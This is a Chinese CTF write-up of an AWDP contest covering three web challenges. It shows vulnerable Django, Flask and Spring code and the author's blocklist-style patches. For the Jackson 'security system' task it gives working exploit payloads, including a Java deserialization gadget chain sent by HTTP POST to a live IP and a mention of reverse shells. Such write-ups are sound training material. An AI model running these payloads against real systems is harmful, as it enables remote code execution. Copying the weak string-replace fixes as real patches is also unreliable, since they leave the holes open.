# 记某次 AWDP 的坎坷之旅 - 先知社区

记某次 AWDP 的坎坷之旅

- - -

‍

# 前言

记录一下第一次攻防兼备 Java 的 CTF 线下赛的 AWDP 赛事，我觉得题目质量都非常高，因此记录下

# Web

## ezcache(只会 Fix)

给了两个源码，src 应该是源码，packages 是依赖

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193020-6cbd05da-d49a-1.png)

这里还是很抽象的，他题目说 web 根目录在/app 下，md 这源码还有个 app...(我写了 11 个包都是在/app 下，我人都傻了，全是 exp 利用成功，求求你了 ichunqiuxxxxxxx)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193054-80df9096-d49a-1.png)

当时 exp 利用成功了 11 次我就看 settings tmd 我还觉得奇怪呢

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193102-857b2e58-d49a-1.png)

审计 urls.py 发现定义了三个路由

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193107-88ace292-d49a-1.png)

关键代码看`generate` 即可

```plain
def generate_page(request):
    if request.method == "POST":
        intro = str(request.POST.get('intro'))
        if 'admin' in intro or 'config.' in intro:
            return HttpResponse("can't be as admin")
        outer_html = ('<h1>hello {user}</h1></p><h3>' + intro + '</h3>').format(user=request.user)
        f = request.FILES.get("file", None)
        filename = request.POST.get('filename') if request.POST.get('filename') else f.name
        if '.py' in filename:
            return HttpResponse("no py")
        if f is None:
            return HttpResponse("no file")
        else:
            with open("/app/static/{}".format(filename), 'wb+') as ff:
                for chunk in f.chunks():
                    ff.write(chunk)
            return HttpResponse(outer_html + "</p>".format(filename))
    else:
        return HttpResponse("unable")
```

发现 intro 可控并且有 render 和{}关键字，猜测是 SSTI 之类的东西进行 SSTI 的过滤

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193115-8d7337a4-d49a-1.png)

这里就尝试过滤掉`{`或者`}`符号

就能过 check

```plain
from django.shortcuts import render, HttpResponse
from django.views.decorators.cache import cache_page
# Create your views here.
def index(request):
    return render(request,'index.html')
def generate_page(request):
    if request.method == "POST":
        intro = str(request.POST.get('intro')).replace("{","").replace("..","").replace("/","")
        if 'admin' in intro or 'config.' in intro:
            return HttpResponse("can't be as admin"

        outer_html = ('<h1>hello {user}</h1></p><h3>' + intro + '</h3>').format(user=request.user)
        f = request.FILES.get("file", None)
        filename = request.POST.get('filename') if request.POST.get('filename') else f.name
        if '.py' in filename:
            return HttpResponse("no py")
        if f is None:
            return HttpResponse("no file")
        else:
            with open("/app/static/{}".format(filename), 'wb+') as ff:
                for chunk in f.chunks():
                    ff.write(chunk)
            return HttpResponse(outer_html + "</p>".format(filename))
    else:
        return HttpResponse("unable")
```

## whatis(只会 Fix)

一堆 python 文件

这个题可以说是把 awdp 给玩明白了，通过控制变量法，重复修改导入包：硬 fuzz《这就是 FUZZ 的魅力》

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193125-9330b996-d49a-1.png)

啥意思呢，就是他是需要导包的，我们通过不允许他导包来进行测试服务异常，发现在这三个导入的包，只有 file 会异常，所以异常文件在 file 目录下的**init**文件

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193135-996b0e06-d49a-1.png)

发现 POST 有个读文件，给他加个过滤

```plain
import base64
import json
from flask import Blueprint, request, render_template, jsonify, current_app
from config import SPEED

file = Blueprint('file', __name__, template_folder=".")


@file.route('/file/<uid>', methods=['GET', 'POST'])
def __file(uid):
    if request.method == "GET":
        return render_template('file.html')
    elif request.form.get("dir"):
        _data = current_app.cache[uid][0].send_term_command(
            {"v_uid": "0222", "type": "dir", "data": request.form.get("dir")})
        return jsonify({"code": 0, "data": _data["raw"]})
    elif request.form.get("action") == "upload":
        _file = request.files["file"]
        _file = str(_file).replace("{","").replace("..","").replace("/","").replace("cat","").replace("flag","").replace("tac","")
        _path = request.form.get("src_path")
        _path = str(_path).replace("{","").replace("..","").replace("/","").replace("cat","").replace("flag","").replace("tac","")
        _file_data = base64.b64encode(_file.read()).decode()
        _data = current_app.cache[uid][0].send_term_command({"v_uid": "0222", "type": "upload",
                                                             "data": {"path": _path, "filename": _file.filename,
                                                                      "data": _file_data}})
        return jsonify(_data)
    else:
        data = json.loads(request.data)
        if data["action"] == "download":
            _data = current_app.cache[uid][0].send_term_command({"v_uid": "0222", "type": data["action"], "data": data})
            a = str(data["filename"]).replace("{","").replace("..","")
            with open("static/files/{}".format(a), "wb") as f:
                f.write(base64.b64decode(_data["data"]))
            return jsonify({"code": 0})
        _data = current_app.cache[uid][0].send_term_command({"v_uid": "0222", "type": data["action"], "data": data})
        return jsonify({"code": 0, "data": _data["raw"]})
```

## security system(fix+break)

提示

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193143-9e24b848-d49a-1.png)

### Fix

明显后面可以无条件反序列化 base64decode 直接 ban 掉即可过 check

```plain
package com.example.jackson;
import com.fasterxml.jackson.databind.ObjectMapper;
import java.util.Iterator;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;

@RestController
public class Index {
   private static final ObjectMapper mapper = new ObjectMapper();
   private static final SecurityCheck isSafe = new SecurityCheck();

   @RequestMapping({"/safeobject"})
   public String start(String obj, String classes) throws Exception {
      if (!classes.contains("Object") && !classes.contains("LinkedHashMap")) {
         Class c = Class.forName(classes);
         SecurityCheck var10000 = isSafe;
         if (SecurityCheck.isSafe()) {
            Object o = SecurityCheck.deObject(mapper.readValue(obj, c));
            return o.toString();
         }
      } else {
         return "xixixixi";
      }

      return "xixixixi";
   }
   public static void main(String[] args) throws Exception {
   }
}
```

预期解

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193150-a23c8adc-d49a-1.png)

### Break

依赖就 spring 的依赖并且版本为 2.7.12

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193157-a68ac68a-d49a-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193201-a8ec1a0a-d49a-1.png)

看对应路由，就一个

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193206-ab988798-d49a-1.png)

-   传入 obj 和 classes，并反射获取 classes 的类为反序列化的类，obj 为 json 字符串
-   在 if 分支里，会对传入的 obj 做 jackson 解析，然后给到`SecurityCheck.deObject()`方法处理后再调用 toString 返回
-   在 else 分支里会获取 SecurityCheck 的 treeMap 属性，并且做反序列化
-   SecurityCheck 的 safe 属性可以控制进入 if 和 else

我当时的第一个疑问：

1.  我的`mapper`没设置属性咋打啊？

其实就是因为`SecurityCheck.deObject`方法

```plain
public static Object deObject(Object ob) throws Exception {
        if (ob instanceof LinkedHashMap) {
            LinkedHashMap map = (LinkedHashMap)ob;
            String type = (String)map.get("@type");
            if (!"".equals(type) && type != null) {
                Class clazz = Class.forName(type);
                Object obj = clazz.newInstance();
                Iterator ir = map.keySet().iterator();

                while(ir.hasNext()) {
                    String key = (String)ir.next();
                    Object value = map.get(key);
                    if (!key.equals("@type")) {
                        Field field = getField(clazz, key);
                        if (field != null) {
                            setFieldValues(obj, key, value);
                        }
                    }
                }
                return obj;
            } else {
                return map;
            }
        } else {
            return ob;
        }
    }
```

方法中找传入对象的`@type`属性去加载这个指定类然后返回这个初始化这个类

然后把传入的值以 map 的形式生成一个迭代器，来每个`key`进行一次遍历取出`key`和`value`来进行反射属性赋值，跟进下`setFieldValues`是怎么写的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193221-b4bd6c76-d49a-1.png)

发现竟然对`value`也能够进行类的初始化以及再次反射属性修改值，所以说我们就可以很容易的做到初始化任意对象和构造任意属性了

所以我第一反应也是打`o.toString()`去调用 TemplatesImpl 的 getter

```plain
POJONode#toString -> TemplatesImpl#getOutputProperties
```

那么直接写出 payload 即可 (要满足`ob instanceof LinkedHashMap`其实就去找一个类是他的子类即可)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193228-b8f6a3f2-d49a-1.png)

于是就可以写出如下的 payload

```plain
obj={"@type":"com.fasterxml.jackson.databind.node.POJONode"}&classes=org.springframework.ui.ExtendedModelMap
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193235-bcc5a71c-d49a-1.png)

其实在写 payload 的时候就已经会存在一个疑问了

1.  `POJONode`的`_value`怎么赋一个`TemplatesImpl`进去呢？我就算用 JSON 去赋值也是直接赋给的`ExtendedModelMap`这个对象啊

所以只能考虑`else`这个方法，但是这里就会有一个疑问了，因为他写死了默认是`true`了，我们能否修改了呢？

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193241-c03cd924-d49a-1.png)

那我们现在的主要目的就是要走到`else`这个方法里头，那其实存在 jackson 就可以进行修改了，所以我们构造 payload

```plain
obj={"@type":"org.example.SecurityCheck","safe":false}&classes=org.springframework.ui.ExtendedModelMap
```

那我们传入的内容就是`SecurityCheck`这个全包

```plain
classes=com.example.jackson.SecurityCheck
```

这样就把`safe`的值改成了 false 了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193252-c7078e20-d49a-1.png)

再来看这个代码

```plain
StringBuilder sb = new StringBuilder();
            var10000 = isSafe;
            Iterator var5 = SecurityCheck.ismap().iterator();

            while(var5.hasNext()) {
               Object item = var5.next();
               byte[] s = SecurityCheck.base64Decode((String)item);
               sb.append(SecurityCheck.deserialize(s));
            }

            return sb.toString();
```

这里的方法就是去取了`SecurityCheck`的`treeMap`属性进行取值

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193300-cbf556b0-d49a-1.png)

而这个`treeMap`是通过`SecurityCheck`的构造方法进行了赋值的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193305-cee9bcb2-d49a-1.png)

也就是说 `treeMap`其实是一个存储着序列化的 base64 值的`hashset`

[](https://xzfile.aliyuncs.com/media/upload/picture/20240226193310-d2038e82-d49a-1.png)

接下来就是取这个`hashset`里头的值进行反序列化，那么就很容易想到打 jackson 那条通杀的稳定链了

那怎么去传入我们的序列化的 base64 的值呢

那就是上述讲到的`setFieldValues`可以进行递归调用`deObject`来初始化类，那么我们传入一个`treeMap`，将一个`map`赋值给他即可，那就可以构造如下 payload 了

```plain
{
  "@type": "com.example.jackson.SecurityCheck",
  "safe": false,
  "treeMap": { "@type": "java.util.HashSet", "map": { "rO0AB......": null } }
}
```

那么既然可以任意类加载了，那么打内存马也行，打反弹 shell 也行

‍

```plain
POST /safeobject HTTP/1.1
Host: 107.174.228.79:12345
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5418

obj={"@type":"com.example.jackson.SecurityCheck","safe":false,"treeMap":{"@type":"java.util.HashSet","map":{"rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAAnNyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIABEkACmxpbmVOdW1iZXJMAA5kZWNsYXJpbmdDbGFzc3EAfgAFTAAIZmlsZU5hbWVxAH4ABUwACm1ldGhvZE5hbWVxAH4ABXhwAAAAL3QAE0phY2tzb24uc3RhYmxlLlBvYzB0AAlQb2MwLmphdmF0AApnZXRQYXlsb2Fkc3EAfgALAAAAEXQAGUphY2tzb24uc3RhYmxlLkdldFBheWxvYWR0AA9HZXRQYXlsb2FkLmphdmF0AARtYWluc3IAJmphdmEudXRpbC5Db2xsZWN0aW9ucyRVbm1vZGlmaWFibGVMaXN0/A8lMbXsjhACAAFMAARsaXN0cQB%2bAAd4cgAsamF2YS51dGlsLkNvbGxlY3Rpb25zJFVubW9kaWZpYWJsZUNvbGxlY3Rpb24ZQgCAy173HgIAAUwAAWN0ABZMamF2YS91dGlsL0NvbGxlY3Rpb247eHBzcgATamF2YS51dGlsLkFycmF5TGlzdHiB0h2Zx2GdAwABSQAEc2l6ZXhwAAAAAHcEAAAAAHhxAH4AGXhzcgAsY29tLmZhc3RlcnhtbC5qYWNrc29uLmRhdGFiaW5kLm5vZGUuUE9KT05vZG